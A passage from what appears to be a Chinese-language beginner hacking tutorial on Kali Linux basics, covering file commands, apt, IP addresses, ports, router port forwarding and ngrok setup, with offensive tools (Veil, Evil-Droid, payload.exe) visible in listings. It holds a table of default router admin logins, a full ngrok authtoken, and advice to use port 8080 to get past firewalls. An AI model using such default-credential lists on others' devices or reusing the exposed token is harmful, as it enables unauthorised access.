我们可以使用此命令先列出新文件。

```
root@kali:/home/anon/Desktop# ls -l                    (常规列出)

total 12
drwxr-xr-x 6 anon anon 4096 Nov 24 05:20 Evil-Droid
-rw-r--r-- 1 anon anon 4063 Nov 23 08:20 payload.exe
-rw-r--r-- 1 root root    0 Nov 25 00:43 test1.txt
drwxr-xr-x 7 root root 4096 Nov 22 03:48 Veil

root@kali:/home/anon/Desktop# ls -lt                    (新文件优先)

total 12
-rw-r--r-- 1 root root    0 Nov 25 00:43 test1.txt
drwxr-xr-x 6 anon anon 4096 Nov 24 05:20 Evil-Droid
-rw-r--r-- 1 anon anon 4063 Nov 23 08:20 payload.exe
drwxr-xr-x 7 root root 4096 Nov 22 03:48 Veil
root@kali:/home/anon/Desktop#
```

##### VI. -rtl

```bash
root@kali:/home/anon/Desktop# ls -rtl
total 12
drwxr-xr-x 7 root root 4096 Nov 22 03:48 Veil
-rw-r--r-- 1 anon anon 4063 Nov 23 08:20 payload.exe
drwxr-xr-x 6 anon anon 4096 Nov 24 05:20 Evil-Droid
-rw-r--r-- 1 root root 0 Nov 25 00:43 test1.txt
root@kali:/home/anon/Desktop#
```

我们可以将 “-r”、“-l” 和 “-t” 选项结合使用，以便先列出旧文件。

### 从目录复制文件 (Copying Files From a Directory)

在本节中，我们将学习如何使用终端将文件或目录从一个位置复制到另一个位置。我们还将介绍一些能让工作更简单的有趣选项。

在学习复制命令及其选项之前，让我们先了解其结构。

“Cp” 代表 "copy"（复制），我们使用此命令来复制文件和目录。它的工作方式与 Windows 相同，但这里我们使用的是终端而非图形用户界面。

`cp [options] destination path`

```bash
root@kali:/home/anon/Downloads# cp test.txt /home/anon/Desktop/
root@kali:/home/anon/Downloads# cd ..; cd Desktop
root@kali:/home/anon/Desktop# ls
Evil-Droid payload.exe test.txt Veil
root@kali:/home/anon/Desktop#
```

现在，我们可以看到 test.txt 文件已从 Downloads 文件夹复制到 Desktop。让我们探索几个选项。

#### -r

如果我们想复制一个文件夹及其包含的内容，则必须在 “cp” 命令中使用 “-r” 选项。

```bash
root@kali:/home/anon/Desktop# ls
Evil-Droid payload.exe test.txt Veil
root@kali:/home/anon/Desktop# cp -r test /home/anon/Downloads/
root@kali:/home/anon/Desktop#
```

#### -i

如果你希望在复制时获得确认，可以使用 “-i” 选项。在覆盖任何文件或目录之前，它会发出提示。


### 从目录移动文件

复制（copying）和移动（moving）的区别在于，复制会创建一个与所选文件或文件夹相同的文件，并将副本放置在不同的驱动器或文件夹中。而移动则是将原始文件从一个位置传输到另一个位置。“move”命令在移动时会删除原始文件，而在复制时则会保留它们。在 Kali Linux 中，“move”选项还用于重命名文件或目录，因为系统没有单独的重命名选项。让我们继续看看它是如何工作的。

我在桌面上创建了一个名为“**test**”的文件。现在让我们将该文件从 Desktop 文件夹移动到 Documents。

```
root@kali:/home/anon/Downloads# mv test /home/anon/Desktop/
root@kali:/home/anon/Downloads# cd ..
root@kali:/home/anon# cd Desktop
root@kali:/home/anon/Desktop# ls
Evil-Droid  payload.exe  test  test.txt  Veil
root@kali:/home/anon/Desktop#
```

同样，如果你希望在复制时获得确认，可以使用 `-i` 选项。它在覆盖任何文件或目录之前会弹出提示。

### 删除文件和目录

到目前为止，我们已经学习了如何创建文件和目录、列出目录的内容以及列出文件的内容。如果我们想删除这些文件怎么办？我们可以使用 `rm` 命令。让我们继续看看如何使用该命令来删除文件和目录。

#### rm [文件名]

```
root@kali:/home/anon/Desktop# ls
Evil-Droid  payload.exe  test.txt  Veil
root@kali:/home/anon/Desktop# rm test.txt
root@kali:/home/anon/Desktop# ls
Evil-Droid  payload.exe  Veil
root@kali:/home/anon/Desktop#
```

现在，我们可以看到 test 文件已从桌面目录中删除。

#### rmdir [文件名]

```
root@kali:/home/anon/Desktop# ls
Evil-Droid payload.exe test Veil
root@kali:/home/anon/Desktop# rmdir test
root@kali:/home/anon/Desktop# ls
Evil-Droid payload.exe Veil
root@kali:/home/anon/Desktop#
```

我们可以使用 `rmdir` 命令来删除空目录。

#### -r

```
root@kali:/home/anon/Desktop# rm -r test
root@kali:/home/anon/Desktop#
```

我们可以将 `-r` 选项与 `rm` 结合使用，以删除目录及其包含的内容。

## 软件包管理

Kali Linux 的软件包与 Windows 操作系统非常相似。我们可以随时使用 `apt` 命令安装任何软件包。`Apt` 代表高级软件包工具（Advanced Packaging Tool）。此外，还有许多不同的命令可以与 `apt` 配合使用。

例如，如果我想将客户端连接到 FTP 服务器，那么我需要一个图形化 FTP 软件包。我可以使用以下命令进行搜索：

### apt-cache search graphical ftp

```
root@kali:/home/anon/Desktop# apt-cache search graphical ftp
filezilla - Full-featured graphical FTP/FTPS/SFTP client
ftools-fv - Tool for viewing and editing FITS format files
gabedit - graphical user interface to Ab Initio packages
gdebi - simple tool to view and install deb files - GNOME GUI
gftp-gtk - X/GTK+ FTP client
jftp - Java GUI client for FTP, SMB, SFTP and NFS
k4dirstat - graphical disk usage display with cleanup facilities
lynx - classic non-graphical (text-mode) web browser
sdlfrotz - interpreter of Z-code story-files (SDL version)
root@kali:/home/anon/Desktop#
```

在这里，我们可以看到针对 `graphical ftp` 关键字有许多结果。假设我选择了 `filezilla`，但在安装它之前，我想查看更多相关信息，那么可以使用下面给出的命令。

### apt-cache show filezilla

```
MD5sum: 187b677c444d388da121f7ab524c4faf
Description: Full-featured graphical FTP/FTPS/SFTP client
FileZilla is a full-featured FTP client with an easy-to-use GUI.
.
It is written in C++ and uses the wxWidgets library.
.
FileZilla includes the following features:
* Supports FTP, FTP over SSL/TLS (FTPS) and SSH File Transfer Protocol (SFTP)
* IPv6 support
* Available in more than 40 languages
* Supports resume and transfer of large files >4GB
* Easy to use Site Manager and transfer queue
* Bookmarks
* Drag & drop support
* Speed limits
* Filename filters
* Directory comparison
* Network configuration wizard
* Remote file editing
* Keep-alive
* HTTP/1.1, SOCKS5 and FTP Proxy support
* Logging to file
* Synchronized directory browsing
* Remote file search
* Tabbed interface to connect to multiple servers
Description-md5: 782ac3b3cf186729c1138dc7616d26df
Homepage: https://filezilla-project.org/
Tag: implemented-in::c++, interface::graphical, interface::x11,
network::client, protocol::ftp, protocol::sftp, protocol::ssl,
role::program, uitoolkit::gtk, uitoolkit::wxwidgets, use::downloading,
works-with::file, x11::application
Section: net
Priority: optional
Filename: pool/main/f/filezilla/filezilla_3.51.0-1_amd64.deb

root@kali:/home/anon/Desktop#
```

一旦获得了所需信息，我可以使用下面给出的命令来安装该软件包。

### apt-get install filezilla

```bash
root@kali:/home/anon/Desktop# apt-get install filezilla
Reading package lists... Done
Building dependency tree
Reading state information... Done
filezilla is already the newest version (3.51.0-1).
The following packages were automatically installed and are no longer required:
  bluez-firmware firmware-atheros firmware-brcm80211 firmware-intel-sound
  firmware-iwlwifi firmware-libertas firmware-realtek firmware-ti-connectivity
  firmware-zd1211 libindicator3-7 libjsoncpp1 libmpdec2 libprotobuf22
  libsrt1-gnutls libx264-159 openjdk-8-jre python3-chameleon
  python3-flask-restless python3-mimeparse python3-mimerender python3-waitress
  python3-webtest python3-zope.component python3-zope.event
  python3-zope.hookable snmp testdisk tftp
Use 'sudo apt autoremove' to remove them.
0 upgraded, 0 newly installed, 0 to remove and 178 not upgraded.
root@kali:/home/anon/Desktop#
```

我的系统中已经安装了此软件包。在你的情况下，安装时间取决于你的网络速度。

如果你使用了该软件，但因为某些原因想要将其删除怎么办？你可以通过输入以下命令来实现：

### apt-get remove filezilla

```bash
root@kali:/home/anon/Desktop# apt-get remove filezilla
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following packages were automatically installed and are no longer required:
  bluez-firmware filezilla-common firmware-atheros firmware-brcm80211
  firmware-intel-sound firmware-iwlwifi firmware-libertas firmware-realtek
  firmware-ti-connectivity firmware-zd1211 libfilezilla0 libindicator3-7
  libjsoncpp1 libmpdec2 libprotobuf22 libpugixml1v5 libsrt1-gnutls
  libwxgtk3.0-gtk3-0v5 libx264-159 openjdk-8-jre
  python3-chameleon python3-flask-restless python3-mimeparse
  python3-mimerender python3-waitress python3-webtest python3-zope.component
  python3-zope.event python3-zope.hookable snmp testdisk tftp
Use 'sudo apt autoremove' to remove them.
The following packages will be REMOVED:
  filezilla
0 upgraded, 0 newly installed, 1 to remove and 178 not upgraded.
After this operation, 7,614 kB disk space will be freed.
Do you want to continue? [Y/n] y
(Reading database ... 338025 files and directories currently installed.)
Removing filezilla (3.51.0-1) ...
Processing triggers for desktop-file-utils (0.26-1) ...
Processing triggers for mime-support (3.64) ...
Processing triggers for gnome-menus (3.36.0-1) ...
Processing triggers for libc-bin (2.31-4) ...
Processing triggers for man-db (2.9.3-2) ...
Processing triggers for kali-menu (2020.4.0) ...
root@kali:/home/anon/Desktop#
```

现在，`filezilla` 已从我们的系统中顺利删除。

## 互联网协议


### 什么是 IP 地址？

IP 地址代表互联网协议（Internet Protocol）地址，它是连接到网络的任何系统的唯一识别号码。IP 地址有两个版本：IPv4 和 IPv6。IPv4 的长度为 32 位，最多可以唯一标识 4,294,967,296 ($2^{32}$) 个地址。一个 IP 地址被分为四个部分，每个部分可以包含 1 到 3 位数字，这些数字由单个点 (.) 分隔。这四个部分中的数字必须在 0 到 255 之间。例如，1.160.10.240 可以是一个 IP 地址。IPv6 的长度为 128 位，可以使用十六进制编写并由冒号分隔，可实现 $3.4 \times 10^{38}$ ($2^{128}$) 个唯一地址。IPv6 的一个示例是：3ffe:1900:4545:3:200:f8ff:fe21:67cf。

### IP 地址的类型

IP 地址有四种类型：

- 本地 IP 地址 (Local IP address)
- 公网 IP 地址 (Public IP address)
- 静态 IP 地址 (Static IP address)
- 动态 IP 地址 (Dynamic IP address)

### 本地 IP 地址

当你的计算机连接到具有默认设置的路由器时，会被分配一个本地 IP 地址。它通常用于定位连接到私有网络中的设备和计算机。本地 IP 地址不必始终保持不变，它可能会根据私有网络上的其他设备以及这些设备是否开启而改变。

假设你有一个私有网络，其中包含一台笔记本电脑、一台计算机、一台平板电脑和一部手机。如果你先开启手机，那么路由器会给你的手机分配第一个本地 IP 地址。网络路由器通常负责分配本地 IP 地址。每台设备在连接到网络时都会被分配一个地址。

### 公网 IP 地址

你的公网 IP 地址可以比作你设备的电话号码。它也被称为外部 IP 地址，当你上网时会被分配一个。你的互联网服务提供商（ISP）使用它来识别请求特定网页的客户和设备。


公网 IP 是任何公共网络所必需的，它用于区分连接到互联网的每一个设备。您的公网 IP 是唯一的，这样您的在线请求就不会发送给其他人。由于您的设备是唯一拥有该 IP 地址的设备，因此请求理应返回到您的设备上。

#### 静态 IP 地址

您的静态 IP 地址是由动态主机配置协议 (DHCP) 为特定设备手动创建的。DHCP 通常用于快速且自动地设置 IP 地址。您的静态 IP 地址不会改变。

任何能够承载 IP 地址的路由器、手机、平板电脑、笔记本电脑等都可以被设置为拥有静态 IP 地址。这类 IP 地址通常用于从家中远程访问程序、服务器和托管网站。您通常会使用静态 IP 地址使设备更容易被找到。一旦知道了静态 IP，它就不会改变。

#### 动态 IP 地址

动态 IP 地址是自动分配给网络中每个连接的。例如，您的平板电脑、手机、笔记本电脑和 iPad 将被视为不同的连接。这很重要，因为动态主机配置协议 (DHCP) 协议会自动配置动态 IP 地址。

这意味着下次设备建立连接时，很可能会获得一个不同的动态 IP 地址。动态 IP 的最大优势在于灵活性和易用性。例如笔记本电脑，在被用于访问互联网时，它拥有一个激活的动态 IP 地址。

当同一用户关闭笔记本电脑后，该 IP 再次变为可用状态。该用户取出平板电脑，即便它是不同的设备，也可能会获得同一个动态 IP。这就是动态 IP 地址的优势。

您可以通过端口转发在几分钟内将动态 IP 地址更改为静态 IP 地址，这是在动态 IP 地址环境下实现静态 IP 功能最简单且最具成本效益的方法。

### 端口号


我们中的许多人可能以前从未听说过端口转发。然而，我们都知道，在互联网及相关领域，计算机正在飞速发展。随着技术领域出现大量职业机会，了解端口转发及其真实作用对一个人来说可能会很有用。

#### 什么是端口？

端口是网络或互联网用于通信的任何应用程序或进程的逻辑地址。当两个应用程序发送和接收数据时，会存在一个端点。这个网络端点就被称为端口。

#### 端口类型

端口分为两种类型。

- (1) **TCP** - TCP 或传输控制协议是一种面向连接的协议。这意味着如果两个设备想通过 TCP 相互通信，它们在传输任何信息之前必须发送正式消息来配置连接。TCP 是一种可靠的协议，因为当您使用 TCP 向另一个设备发送数据时，对方设备会确认收到该数据。通过这种方式，双方都可以确保接收到了正确的信息，因为 TCP 会跟踪发送的内容及其顺序。任何在对方边界之外接收到的内容都可以被打包成其通用形式。

- (2) **UDP** - 用户数据报协议与 TCP 完全不同。UDP 是无连接的，在与另一个设备建立通信时没有正式的启动过程。数据从一个设备流向另一个设备没有特定方式。UDP 只是在没有任何预警的情况下向另一个设备发送信息。因此，UDP 被认为是一种不可靠的协议。

然而，这并不意味着 UDP 比其他协议差，或者它运行得异常出色。那么，当人们说向另一个设备发送数据没有确认时，这意味着什么？简单来说，源站不知道信息是否来自另一个页面，而使用 UDP 的应用程序并不在意这一点。接收数据的站端也不会发送任何确认反馈。由于 UDP 中没有确认或跟踪机制，因此无法在网络上对信息进行重新排序或重新传输。

#### 什么是端口转发？

端口转发在计算机网络中也被称为端口映射。它是网络地址转换 (NAT) 的一种应用，用于在数据包穿过网络网关时，将通信请求从一个“地址和端口号组合”重定向到另一个组合。网络网关可以是路由器或防火墙。端口转发通常用于使内部网络上的主机服务能够被外部网络访问。这是通过将通信的目标 IP 地址和端口号重新映射到内部主机来实现的。为了更好地理解端口转发，可以将其类比为给不懂英语的人配备一名翻译。端口转发将所需的通信转换为外部网络能够识别并访问的形式。

#### 端口转发如何工作？

路由器上的端口转发使您能够访问一个端口号，或者根据所用路由器的不同，访问一组端口号组合以及一个 IP 地址。在您输入所需的端口号和 IP 地址后，所有具有匹配端口号的入站连接都会自动转发到具有该 IP 地址的内部计算机。这个过程最终使得确保任何给定数据和信息到达预定位置变得更加容易。

#### 使用路由器进行端口转发

端口转发（也称为端口映射）是一种创新技术，允许我们使用本地主机的 IP 地址进行所有通过广域网 (WAN) 的外部通信。本节将解释如何使用路由器转发设备端口。

**确定您的网关 IP-** 网关 IP 可以在路由器的背面找到，或者分别在 Linux 和 Windows 中输入 `ifconfig` 和 `ipconfig` 来查看。

```
Ethernet adapter Ethernet:

Connection-specific DNS Suffix . :
Link-local IPv6 Address . . . . . : fe80::9dc3:212c:f8d7:125e%7
IPv4 Address. . . . . . . . . . . : 192.168.1.7
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 192.168.1.1          This is the Default Gateway on my router.
```

```
Ethernet adapter VirtualBox Host-Only Network:

Connection-specific DNS Suffix . :
Link-local IPv6 Address . . . . . : fe80::a946:8d10:a39:24f2%17
IPv4 Address. . . . . . . . . . . : 192.168.56.1
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . :
```

将上述确定的 IP 输入到浏览器的搜索栏中，以进入路由器设置页面。


| # | 品牌 | IP 地址 | 用户名 | 密码 |
|---|---|---|---|---|
| 1 | 3Com | http://192.168.1.1 | admin | Admin |
| 2 | Belkin | http://192.168.2.1 | admin | admin |
| 3 | BenQ | http://192.168.1.1 | admin | Admin |
| 4 | D-Link | http://192.168.0.1 | admin | Admin |
| 5 | Digicom | http://192.168.1.254 | admin | Michelangelo |
| 6 | Linksys | http://192.168.1.1 | admin | Admin |
| 7 | Netgear | http://192.168.0.1 | admin | password |
| 8 | Sitecom | http://192.168.0.1 | sitecom | Admin |
| 9 | Asus | http://192.168.1.1 | admin | admin |
| 10 | Synology | http://192.168.1.1 | admin | Admin |
| 11 | Arris | http://192.168.0.1 | admin | password |
| 12 | Apple iphoneIOS4.X | http://10.0.1.1 | root | alpine |
| 13 | DELL | http://192.168.1.1 | admin | password |
| 14 | Huawei ADSL2+ | http://192.168.0.1 | admin | admin |
| 15 | Netcomm | http://192.168.1.1 | admin | password |
| 16 | Netstar | http://192.168.0.1 | admin | password |
| 17 | SAMSUNG | http://192.168.0.1 | admin | password |
| 18 | Sigma | http://192.168.0.1 | admin | admin |
| 19 | SUN | http://192.168.0.1 | admin | admin |
| 20 | Telco systems | http://192.168.0.1 | telco | telco |
| 21 | TENDA | http://192.168.0.1 | admin | admin |
| 22 | ZCOM | http://192.168.0.1 | root | admin |
| 23 | ZTE | http://192.168.0.1 | admin | Admin |
| 24 | Nokia | http://192.168.1.1 | admin | admin |

输入登录信息以访问您的路由器页面。在这里，您需要输入最新的用户名和密码。如果您是第一次访问该页面或尚未更改登录详情，可以使用公司提供的默认登录详情。同样，默认的用户名和密码可以在路由器的背面找到。您也可以查看上方提供的列表。


### GPON 家庭网关

登出

#### 状态 > 设备信息


- 状态
- 设备信息
- LAN 状态
- WAN 状态
- WAN 状态 IPv6
- 家庭网络
- 光模块状态
- 统计信息
- 语音信息
- Airtel 状态
- 网络
- 安全
- 应用
- 维护

| 属性 | 值 |
|----------|-------|
| 设备名称 | G-2425G-A |
| 厂商 | Nokia |
| 序列号 | ALCLB3ADC38C |
| 硬件版本 | 4FE47269DBAA |
| 启动版本 | U-Boot Dec-31-2016--12:00:00 |
| 软件版本 | 3FEFH90J5BLKB12 |
| 设备运行时间 | 4 小时 16 分钟 1 秒 |

刷新

从我的路由器设置页面可以明显看出，我使用的是 Nokia 路由器。虽然用户界面可能会根据您使用的公司而有所不同，但基本概念是一样的。

**获取转发选项** —— 这些可以通过探索路由器的所有部分或选项卡来访问。在我的路由器中，我具体使用了“应用”选项卡，但如截图所示，这里共有七个选项卡。



让我们逐一来看。



- 1. **应用名称** —— 此选项卡用于指定我们想要进行端口转发的应用。由于目前不需要，我们将保持原样。



- 2. **WAN 端口** —— 在这里为您选择 WAN（广域网）端口。我使用 8080，因为网站和应用程序经常使用它，这样可以绕过防火墙。

- 3. **LAN 端口** —— 这里输入我们想要转发的本地局域网 (LAN) 端口。同样，我使用了 8080，但您可以使用您偏好的 LAN 端口。



- 4. **内部客户端** —— 在此选项卡中，我们输入想要转发端口到的设备 IP 地址。也可以使用自定义设置选项卡来选择设备。



- 5. **协议** —— 在这里我们选择用于接收流量的协议。您可以选择传输控制协议 (TCP)、用户数据报协议 (UDP) 或两者兼有。

- 6. **启用映射** —— 如果您是在为服务器添加新记录，则应勾选此部分。如果您是为特定应用程序进行端口转发，则无需标记此部分。



- 7. **WAN 连接列表** —— 在这里，您选择 WAN 连接列表。如果您像我一样只有一个列表，建议保持默认并添加新规则。



一切完成后，点击“添加”按钮，新规则将被添加。所有发送到我们公网 IP 且端口号为 8080 的请求都将被转发到我的本地 IP。

#### 通过 WAN 进行端口转发

我们已经学习了如何使用路由器转发本地端口，以便通过广域网 (WAN) 访问本地主机，但问题是并非每个人的家中都有路由器。在本节中，我们将通过一个网站来转发我们的 WAN IP。

我们将用于转发 WAN IP 的网站名为 ngrok。虽然还有很多其他网站和工具可用，但目前我们将使用 ngrok。我们选择 ngrok 是因为它提供两种方案：一种是免费的，另一种是付费的。我们将使用免费方案，因为它能满足我们的需求。

请按照以下步骤使用 ngrok 转发 WAN IP。

要使用 ngrok 转发端口，我们需要在 ngrok 创建一个账户。请访问 [www.ngrok.com](www.ngrok.com) 创建新账户。



创建账户并登录后，根据您的操作系统下载软件。我们使用的是 Kali Linux，因此我们将下载 Linux 版本。

```bash
anon@kali:~/Downloads$ sudo unzip ngrok-stable-linux-amd64.zip
[sudo] password for anon:
Archive:  ngrok-stable-linux-amd64.zip
  inflating: ngrok
```

```bash
anon@kali:~/Downloads$
```

下载安装包后，我们需要解压文件，因为它处于 zip 格式。我们可以使用 `unzip` 命令解压，如果您在文件下载的目录中，请输入 `sudo unzip (文件名)`。如果您不在该目录下，则必须提供文件存储的路径。

示例：**Sudo**（因为我们不是 root 用户。如果您是 root 用户，可以省略此命令）**unzip**（用于解压 zip 文件的命令）**文件路径**（文件存储的位置）**文件名**

```bash
anon@kali:~$ sudo unzip /home/anon/Downloads/ngrok-stable-linux-amd64.zip
```

解压文件后，我们需要运行一条命令，将您的授权令牌 (auth token) 添加到默认的 `ngrok.yml` 配置文件中。这将使您能够访问更多功能并延长会话时间。

进入解压文件所在的目录并输入以下命令：

```bash
./ngrok authtoken (authtoken Key)
```

```bash
$ ./ngrok authtoken 1jRzeTv3nTmkH5d5do7sxpyRZor_2qengGg33ph35xRyXYLKW
```

#### 如何获取 ngrok 授权令牌？

要获取授权令牌，请登录您的 ngrok 账户，点击左上角的 authentication 选项卡。在 authtoken 选项卡中点击“**Your Authtoken**”。



进入 authtoken 页面后，直接复制该令牌，或者您也可以复制整条命令并将其粘贴到终端中。

